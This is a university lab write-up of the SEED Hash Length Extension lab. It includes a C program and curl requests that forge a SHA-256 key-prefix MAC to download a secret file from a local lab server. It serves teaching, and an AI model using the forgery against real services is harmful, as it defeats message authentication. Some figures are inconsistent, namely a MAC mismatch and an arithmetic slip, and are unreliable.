

# Hash Length Extension Attack Lab

**Authors (Group 5):**
- Diogo Rodrigues up201806429
- Pedro Azevedo up201603816
- Rui Pinto up201806441

This week's suggested lab was Hash Length Extension Lab, from SEED labs, with the intent of providing us with a better understanding of how attacks can be done when MACs (Message Authentication Codes) are calculated in an insecure way for a given message.

# Introduction

In this lab, an attack called *length extension attack* is explored. It starts with the idea that a MAC is calculated by concatenating a key with a message and producing a one-way hash of the resulting string. Unfortunately, this method is subject to an attack because attackers may modify the message while still being able to generate a valid MAC based on the modified message and without knowing the secret key used for producing the MAC.

# Tasks

## Task 1

In this task, we are asked to send a simple request to the server to list the files in its current directory. The request's format is as follows:

```
http://www.seedlab-hashlen.com/?myname=<name>&uid=<need-to-fill>
&lstcmd=1&mac=<need-to-calculate>
```

Note that an entry had to be added to the `/etc/hosts` file so that `www.seedlab-hashlen.com` is mapped to `10.9.0.80`. It would be something like this:

```
10.9.0.80       www.seedlab-hashlen.com
```

Assuming the selected `uid` is `1001`, the corresponding key will be `123456`. In order to calculate the MAC of the message to send, we use the format `Key:R`, being the key `123456`, as mentioned, and `R` equal to the contents of the request, excluding everything but the argument part. In our case, this would be something like:

```
123456:myname=RuiPinto&uid=1001&lstcmd=1
```

Then, we can calculate the MAC, which is a `sha256` checksum.

``` 
┌──(kali㉿kali)-[~/…/seed-labs/category-crypto/Crypto_Hash_Length_Ext/Labsetup]
└─$ echo -n "123456:myname=RuiPinto&uid=1001&lstcmd=1" | sha256sum
c0725fc9f2eb89dc1b01ca7874c371b45c0f0e71d3a3cd3e53bb465cb747f2a6  -
```

We then construct the complete request and send it to the server program. This is given by the URL: http://www.seedlab-hashlen.com/?myname=RuiPinto&uid=1001&lstcmd=1&mac=c0725fc9f2eb89dc1b01ca7874c371b45c0f0e71d3a3cd3e53bb465cb747f2a6.

Using the command line:

```
┌──(kali㉿kali)-[~/…/seed-labs/category-crypto/Crypto_Hash_Length_Ext/Labsetup]
└─$ curl http://www.seedlab-hashlen.com/\?myname=RuiPinto\&uid=1001\&lstcmd=1\&mac=c0725fc9f2eb89dc1b01ca7874c371b45c0f0e71d3a3cd3e53bb465cb747f2a6
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Length Extension Lab</title>
</head>
<body>
    <nav class="navbar fixed-top navbar-light" style="background-color: #3EA055;">
        <a class="navbar-brand" href="#" >
            SEEDLabs
        </a>
    </nav>

    <div style="padding-top: 50px; text-align: center;">
        <h2><b>Hash Length Extension Attack Lab</b></h2>
        <div style="max-width: 35%; text-align: center; margin: auto;">
            
                <b>Yes, your MAC is valid</b>
                
                    <h3>List Directory</h3>
                    <ol>
                        
                            <li>secret.txt</li>
                        
                            <li>key.txt</li>
                        
                    </ol>
                

                
            
        </div>
    </div>
</body>
</html>
```

As a result, we obtain the list of files in the current server's directory.

The previous example demonstrated how could we launch a **listing command** to the server. But what if we wanted to send a **download command**? The logic is the same...

Assuming our key is the same, the arguments of the message to send are `myname=RuiPinto&uid=1001&lstcmd=0&download=secret.txt`. Note that we are downloading the `secret.txt` file. Then, we produce the MAC of the message:

```
┌──(kali㉿kali)-[~/…/seed-labs/category-crypto/Crypto_Hash_Length_Ext/Labsetup]
└─$ echo -n "123456:myname=RuiPinto&uid=1001&lstcmd=0&download=secret.txt" | sha256sum
e7de5922a5613f85650b10009660a89dc5c3593402b9f156f4a24d318f0907b5  -
```

We then construct the complete request and send it to the server program using the URL: http://www.seedlab-hashlen.com/?myname=RuiPinto&uid=1001&lstcmd=0&download=secret.txt&mac=e7de5922a5613f85650b10009660a89dc5c3593402b9f156f4a24d318f0907b5.

Note that because the server program demands passing the `lstcmd` parameter, we had to put this value equal to 0. If we didn't pass the `lstcmd` parameter, we would get an Internal Server Error.

## Task 2

In this task, we are asked to calculate the padding of a message. As we use SHA-256, the block size is 64 bytes and the padding is formed according to the RFC 6234, meaning paddings for SHA-256 consist of one byte of `\x80`, followed by many 0's, followed by a 64-bit (8 bytes) length field, being the length the number of bits in the message M.

For the message `123456:myname=RuiPinto&uid=1001&lstcmd=1`, which has 40 bytes (40 * 8 = 320 bits) long, the padding will be given by another byte `\x80`, 15 bytes `\x00` and 8 bytes `\x00\x00\x00\x00\x00\x00\x01\x40` (`\x01\x40` = 320). So, we will have the following:

```
"123456:myname=RuiPinto&uid=1001&lstcmd=1"
"\x80"
"\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00"
"\x00\x00\x00\x00\x00\x00\x01\x40"
```

Calculating the MAC for this message follows the same logic as explained before:

```
┌──(kali㉿kali)-[~/…/seed-labs/category-crypto/Crypto_Hash_Length_Ext/Labsetup]
└─$ echo -n "123456:myname=RuiPinto&uid=1001&lstcmd=1\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x40" | sha256sum
bb72f8627d5a19916b66b5236aa19273b25e32063e72d4dfef2670aa58d4a0c7  -
```

Upon receiving a message multiple of its block size (64 bytes), as is the case, SHA-256 will generate further padding to it. IN SHA-256, for each block, the message can only be 440 bits long. That's because each block has 512 bits and the last 64 bits are left to the length of the message. That leaves us with 512 - 64 = 448. If the message is 440 bits long, that leaves 8 bits that need to be filled by padding to make 448 bits. The `0x80` (`10000000`, considering the **Unicode** character standard as it's always encoded in a multiple of 8 bits) will take care of that. This amounts to 512 bits (440 + 8 + 64). If the message is 448 bits long, that leaves 0 bits for padding, which won't do any good because the `1` bit is needed to separate the message from the padding. So even if we could add just a `1` bit with no trailing zeros, we'd still be at >512 bits (448 + 1 + 64 = 513). This puts the number of bits needed over the threshold of 512, which means another message block is needed. So, the `0x80` won't create an overflow of zeros as another message block needs to be created anyways. And that's exactly what happens in this situation.

When testing the generated MAC, we can see we get a message saying the MAC we calculated is valid. Note that the `\x` in the hexadecimal characters needs to be replaced by `%`, so for example, `\x80`, becomes `%80`.

```
┌──(kali㉿kali)-[~/…/seed-labs/category-crypto/Crypto_Hash_Length_Ext/Labsetup]
└─$ curl http://www.seedlab-hashlen.com/\?myname=RuiPinto\&uid=1001\&lstcmd=1%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%01%40\&mac=bb72f8627d5a19916b66b5236aa19273b25e32063e72d4dfef2670aa58d4a0c7
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Length Extension Lab</title>
</head>
<body>
    <nav class="navbar fixed-top navbar-light" style="background-color: #3EA055;">
        <a class="navbar-brand" href="#" >
            SEEDLabs
        </a>
    </nav>

    <div style="padding-top: 50px; text-align: center;">
        <h2><b>Hash Length Extension Attack Lab</b></h2>
        <div style="max-width: 35%; text-align: center; margin: auto;">
            
                <b>Yes, your MAC is valid</b>
                

                
            
        </div>
    </div>
</body>
</html> 
```

## Task 3

In this task, we are asked to generate a valid MAC for a URL without knowing the MAC key. We assume we know the MAC of a valid message R, and also the size of the MAC key. With the Length Extension Attack, it's possible to add a message to the end of the initial message and compute its MAC without knowing the secret MAC key.

First we calculate a MAC for the string `123456:myname=RuiPinto&uid=1001&lstcmd=1`:

``` 
┌──(kali㉿kali)-[~/…/seed-labs/category-crypto/Crypto_Hash_Length_Ext/Labsetup]
└─$ echo -n "123456:myname=RuiPinto&uid=1001&lstcmd=1" | sha256sum
c0725fc9f2eb89dc1b01ca7874c371b45c0f0e71d3a3cd3e53bb465cb747f2a6  -
```

As it can be viewed, the output is `c0725fc9f2eb89dc1b01ca7874c371b45c0f0e71d3a3cd3e53bb465cb747f2a6`. Using the provided script and substituting the computed MAC with the one previously mentioned and adding the string `&download=secret.txt` as the extension, we can get the server program to show us the contents of the `secret.txt` file. The script is as follows:

```c
/* length_ext.c */

#include <stdio.h>
#include <arpa/inet.h>
#include <openssl/sha.h>

int main(int argc, const char *argv[])
{
    int i;
    unsigned char buffer[SHA256_DIGEST_LENGTH];

    SHA256_CTX c;
    SHA256_Init(&c);

    for(i=0; i<64; i++)
        SHA256_Update(&c, "*", 1);

    // MAC of the original message M (padded)
    c.h[0] = htole32(0xc0725fc9);
    c.h[1] = htole32(0xf2eb89dc);
    c.h[2] = htole32(0x1b01ca78);
    c.h[3] = htole32(0x74c371b4);
    c.h[4] = htole32(0x5c0f0e71);
    c.h[5] = htole32(0xd3a3cd3e);
    c.h[6] = htole32(0x53bb465c);
    c.h[7] = htole32(0xb747f2a6);

    // Append additional message
    SHA256_Update(&c, "&download=secret.txt", 20);
    SHA256_Final(buffer, &c);
    
    for(i = 0; i < 32; i++) {
        printf("%02x", buffer[i]);
    }

    printf("\n");
    return 0;
}
```

Compiling and running the C script, we get the new message's MAC.

```
┌──(kali㉿kali)-[~/…/seed-labs/category-crypto/Crypto_Hash_Length_Ext/Labsetup]
└─$ gcc length_ext.c -o length_ext -lcrypto 
                                                                                                             
┌──(kali㉿kali)-[~/…/seed-labs/category-crypto/Crypto_Hash_Length_Ext/Labsetup]
└─$ ./length_ext 
eb71f88b08909fa9fe582c994a6f620b739045287104bf44fad9a2d0e28d6bf3
```

As the script calculates the new MAC based on the previous MAC, we need to add the padding of the initial string message to the URL so that it has the following format:

```
http://www.seedlab-hashlen.com/?myname=<name>&uid=<uid>
&lstcmd=1<padding>&download=secret.txt&mac=<new-mac>
```

As calculated in task 2, the initial message with padding is as follows:

```
"123456:myname=RuiPinto&uid=1001&lstcmd=1"
"\x80"
"\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00"
"\x00\x00\x00\x00\x00\x00\x01\x40"
```

By, filling the URL format presented above, we get the following result:

```
┌──(kali㉿kali)-[~/…/seed-labs/category-crypto/Crypto_Hash_Length_Ext/Labsetup]
└─$ curl http://www.seedlab-hashlen.com/\?myname=RuiPinto\&uid=1001\&lstcmd=1%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%01%40\&download=secret.txt\&mac=8e8f85a2baa57e8655581adec8ba3040594ebeb70271a27095f2588cc52b77ea
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Length Extension Lab</title>
</head>
<body>
    <nav class="navbar fixed-top navbar-light" style="background-color: #3EA055;">
        <a class="navbar-brand" href="#" >
            SEEDLabs
        </a>
    </nav>

    <div style="padding-top: 50px; text-align: center;">
        <h2><b>Hash Length Extension Attack Lab</b></h2>
        <div style="max-width: 35%; text-align: center; margin: auto;">
            
                <b>Yes, your MAC is valid</b>
                

                
                    <h3>File Content</h3>
                    
                        <p>TOP SECRET.</p>
                    
                        <p>DO NOT DISCLOSE.</p>
                    
                        <p></p>
                    
                
            
        </div>
    </div>
</body>
</html>
```

As it can be observed, we get the `secret.txt` file content.

So, how does this work?

As people use to say, an image is worth more than a million words:



This image depicts how the Hash Length Extension Attack is performed. First we hash the `K || M` which corresponds to the string `123456:myname=RuiPinto&uid=1001&lstcmd=1` in our case. And then we use the output of this hashing ("State S") as an input to the extension of the message, represented as `T`. In SHA-256, each block goes through a compression function that produces an output that will, later on, be used as an input for the next block. And this is why our attack works and we're able to add an extension to the string and produce a valid MAC. This is called the Merkle-Damgard construction. Computing the `Hash(K || M || P || T)` (where `P` refers to the padding of the message `K || M`) can be done using the intermediate state `S` from `K || M || P`, because when we compute the `Hash(K || M)`, we're actually using the hash of the string `K || M || P`. Therefore, we can conclude this is the wrong way of calculating a hash capable of validating the integrity of a message because attackers can directly construct the intermediate state `S`, and then calculate the second part of the message to get the hash of `K || M || P || T`. One thing that's important to mention is that when we add the extension `T` to our message, we have to resume the internal state of the SHA-256 engine of the `Hash(K || M)` part. And here there's no magic, we just set the initial value for the internal state as done in this part of the C code: 

```c
 // MAC of the original message M (padded)
  c.h[0] = htole32(0xc0725fc9);
  c.h[1] = htole32(0xf2eb89dc);
  c.h[2] = htole32(0x1b01ca78);
  c.h[3] = htole32(0x74c371b4);
  c.h[4] = htole32(0x5c0f0e71);
  c.h[5] = htole32(0xd3a3cd3e);
  c.h[6] = htole32(0x53bb465c);
  c.h[7] = htole32(0xb747f2a6);
```

But first, we tell the `SHA256_CTX` structure how many input bytes were already processed: 

```c
for(i=0; i<64; i++)
  SHA256_Update(&c, "*", 1);
```

64 bytes in this case. This value is very important because it guarantees that when our message is padded we use the 64 bytes of the `K || M || P` part, in our case, and then the next 20 bytes (`T`) with the string `&download=secret.txt` so that later on, the padding for the whole message is calculated as a multiple of 512 bits and with the 64-bit value at the final part of the padding having a value of 84 bytes * 8 = 672 bits(64 + 20 = 80 bytes).